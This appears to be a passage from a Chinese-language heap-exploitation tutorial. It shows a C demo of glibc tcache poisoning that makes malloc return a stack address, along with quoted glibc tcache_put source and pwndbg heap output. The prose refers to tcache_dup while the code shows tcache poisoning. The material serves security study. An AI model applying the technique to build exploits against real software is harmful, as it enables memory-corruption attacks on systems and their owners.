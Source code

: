 ```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
// tcache poisoning
int main()
{
	"This file demonstrates a simple tcache poisoning attack by tricking malloc into"
	"returning a pointer to an arbitrary location (in this case, the stack)."
	"The attack is very similar to fastbin corruption attack."

	size_t stack_var;
	fprintf(stderr, "The address we want malloc() to return is %p.\n", (char *)&stack_var);

	"Allocating 1 buffer."
	intptr_t *a = malloc(128);
	fprintf(stderr, "malloc(128): %p\n", a);
	"Freeing the buffer..."
	free(a);

	fprintf(stderr, "Now the tcache list has [ %p ].\n", a);
	fprintf(stderr, "We overwrite the first %lu bytes (fd/next pointer) of the data at %p\n"
		"to point to the location to control (%p).\n", sizeof(intptr_t), a, &stack_var);
	a[0] = (intptr_t)&stack_var;

	fprintf(stderr, "1st malloc(128): %p\n", malloc(128));
	fprintf(stderr, "Now the tcache list has [ %p ].\n", &stack_var);

	intptr_t *b = malloc(128);
	fprintf(stderr, "2nd malloc(128): %p\n", b);
	"We got the control"
	return 0;
}
```

我们可以很明显的感受到tcache_dup就是弱化版的fastbin_double_free，我们先看一下源码相关的函数

```c
tcache_put (mchunkptr chunk, size_t tc_idx)
{
      tcache_entry *e = (tcache_entry *) chunk2mem (chunk);
      assert (tc_idx < TCACHE_MAX_BINS);
      e->next = tcache->entries[tc_idx];
      tcache->entries[tc_idx] = e;
      ++(tcache->counts[tc_idx]);
}
```

这就是我之前所说过引入tcache机制降低了安全性的一个体现，本来应该要有tcache->counts[tc_idx] 的相关检验，却为提升效率而去掉了，这也侧面的说明安全和性能处在一个此消彼长的状态

我们简单的调试下tcache_dup

```bash

pwndbg> heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x55a661cd5270 (size : 0x20d90)
```